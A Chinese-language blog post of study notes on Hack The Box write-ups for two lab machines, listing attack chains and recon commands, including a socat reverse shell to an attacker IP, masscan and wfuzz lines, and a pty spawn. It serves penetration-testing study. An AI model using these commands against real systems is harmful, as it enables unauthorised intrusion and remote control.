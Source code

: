 ```yaml
---
layout: post
title: 《0xrick's Write-ups for hack-the-box》学习备忘录（一）
description: ""
keywords: ""
---
```


Paper：[Write-ups for 0xrick's hack-the-box](https://0xrick.github.io/categories/hack-the-box/)

### 一、AI

环境概述：Linux、Medium、30'、09 Nov 2019

渗透流程：Nmap -> Web Enumeration -> SQL injection –> Alexa’s Credentials –> SSH as Alexa –> User Flag -> JDWP –> Code Execution –> Root Shell –> Root Flag

知识点：

- Nmap：-sC等价为--script=default，默认调取已知端口的脚本，输出相应服务的详细信息。
- 目录枚举：使用gobuster，`gobuster dir -u http://ai.htb/ -w /usr/share/wordlists/dirb/common.txt -x php`
- 文字转MP3：使用[ttsmp3](https://ttsmp3.com)，有中国女声，可读中文。
- MP3转WAV：使用ffmpeg，`ffmpeg -i test.mp3 test.wav`。
- Linux提权：使用`ps aux`查看root权限起的服务，使用`netstat -ntlp`查看敏感端口；在Github上使用关键词搜索exp。

思考：

- 目录枚举：除了gobuster，还有dirb、dirsearch、wfuzz等工具。wfuzz是web模糊处理工具，类似于Burpsuite的intruder功能。
- SQL注入：通过语音识别用户上传的wav文件，执行并输出结果。场景很新颖，hard CTF-style。
- Linux提权：发现Apache Tomcat服务，作者首先确定了此服务无利用价值后，进而深入研究了其Tomcat jdwp服务。

### 二、Player

环境概述：Linux、Hard、40'、06 Jul 2019

渗透流程：Nmap -> Web Enumeration -> FFmpeg HLS Vulnerability –> Arbitrary File Read -> Command Injection –> User Flag -> Credentials in fix.php –> RCE –> Shell as www-data -> Root Flag

知识点：

- 子域名枚举：使用wfuzz，`wfuzz --hc 403 -c -w subdomains-top1mil-5000.txt -H "HOST: FUZZ.player.htb" http://10.10.10.145`。
- 文件泄露：`.swp`, `.bak` and `~`。
- 端口扫描：使用masscan，`masscan -p1-65535 10.10.10.145 --rate=1000 -e tun0`。
- Banner头泄露：通过使用nc，`nc ip port`可查看相应服务泄露的banner头，如SSH可看到版本。
- TTY伪终端：使用python，`python -c "import pty;pty.spawn('/bin/bash')"`。

思考：

- 重定向：渗透过程中将Burpsuite或ZAP打开，便于查看请求历史，避免漏掉重定向前的请求应答页面。
- 源码泄露：`.xxx.php.swp`文件是异常退出vi/vim编辑器时产生的文件，使用`vi/vim -r xxx`恢复，除此之外，还有`.xxx.php.swo`、`.xxx.php.swn`等以sw+最后一个字母依次递增的后缀文件，各种编辑器异常退出产生的文件后缀不唯一。
- TTY交互式终端：使用socat，```#Listener: socat file:`tty`,raw,echo=0 tcp-listen:4444 #Victim: socat exec:`bash -li`,pty,stderr,setsid,sigint,sane tcp:1xx.xxx.xxx.xxx:4444```。
- Linux提权：只要是以root权限运行的服务，都要逐一排查。如果是PHP、Python等启动的程序，要进行代码审计，重点发现文件包含、命令执行漏洞，寻找输入点，并借此进程获取root。
